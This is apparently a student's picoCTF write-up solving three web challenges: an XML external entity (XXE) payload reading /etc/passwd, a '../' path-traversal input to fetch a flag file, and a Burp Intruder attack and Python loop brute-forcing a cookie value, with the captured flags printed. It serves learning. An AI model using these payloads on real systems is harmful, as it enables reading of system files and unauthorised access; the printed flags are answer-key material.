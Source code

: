 # SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}`

**Solution:**
- The challenge gives a website whose `/etc/passwd` file is to be read with *XML external entity injection* (XXE).
- I opened a browser in Burp Suite and put in the provided URL & clicked on one of the Details buttons.
- This sent a POST request, which I sent to Repeater.
- To perform XXE injection, I had to change the following script in the Request tab according to it.
```
<?xml version="1.0" encoding="UTF-8"?>
<data>
  <ID>
    2
  </ID>
</data>
```
XXE Payload:
```
< ?xml version="1.0" encoding="UTF-8"? >
< !DOCTYPE foo [ 
	<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
	] >
	<data><ID>
		&xxe;
	</ID></data>
```

- On hitting Send, the flag was visible in the last line of the Response section.
![soap1.png](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/soap1.png?raw=true)

**Concepts learnt:**
1. XML External Entity Injection which is a vulnerability which exploits the processing of XML data, and the XML code for XXE injection payload
2. The contents of the `/etc/passwd` file which is info on users 

**Mistakes & other approaches:**
- I had to turn Intercept Off & then On to receive the request from the site.

**Resources:**
- https://portswigger.net/web-security/xxe

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_6db46514}`

**Solution:**
- The main hint in the challenge was the fact that the website was filtering *absolute* file paths. 
- I noticed the .txt files listed on the website given. http://saturn.picoctf.net:<port\>.
- ![forbidden paths](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/webex1.JPG?raw=true)
- By using the knowledge of absolute vs relative paths, I remembered relative paths don't start with a `/`(root directory), and that other directories in the path can be represented by `../` .
- To get the file, I entered `../../../../flag.txt` as the description said the file was in `/usr/share/nginx/html/`.


**Concepts learnt:**
1.  I recalled the use of `..` to symbolise parent directory.

**Mistakes & other approaches:**
- First, I tried editing the URL directly with the path provided and it didn't work. 
- I also tried entering the given files names on the home page, but they seemed to be not be found

# Cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`

**Solution:**
- The challenge provides a website with an input box for types of cookies. So, I entered various cookie names such as snickerdoodle, chocolate chip, gingerbread, crinkle, etc and observed the *cookie* values change from 0 to ~25 in the Application tab, where -1 was the initial value.
- I realised a specific value of the cookie gives the flag. I installed *Burp Suite (Community Edition)* for the purpose of checking the response upon changing cookie value one by one. 
- I sent  `mercury.picoctf.net:29649/check` to Intruder, set a payload around the cookie value using `Cookie: name=§-1§`. I changed *Payloads* type to numbers and set a range from 0 to 20 and started the attack.
![cookies1.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/cookies1.JPG?raw=true)
 
 - The output had columns like the request number, payload, length, response received and status code. I then went to settings and scrolled to the `Grep - Match` section and added `picoCTF{` to the search queries to find the flag in the responses. It was found in payload 18 and the length here also differed from the other payload values. 
![cookies2.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/cookies2.JPG?raw=true)

**Concepts learnt:**
1. Learnt the use of Burp Suite for taking in requests, changing them and generating the required responses.

**Mistakes & other approaches:**
- After finding the value of the cookie, it could also be directly edited in the website to get the flag there.
- A Python script can be used instead of installing Burp Suite, where there's a loop from 1 to 20 to change the value of the cookies and get the response using `import requests`. 
```python
#!/bin/python3
import requests
url = 'http://mercury.picoctf.net:29649/check'
for i in range(20):
    cookies = {'name': str(i)}
    r = requests.get(url,cookies=cookies)
    if 'picoCTF' in r.text:
        print(r.text)
        break
```
The output in the terminal was the code when the cookie is changed to the value having a response with the required flag:
```
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

**Resources:**
- https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/settings
- https://pypi.org/project/requests/
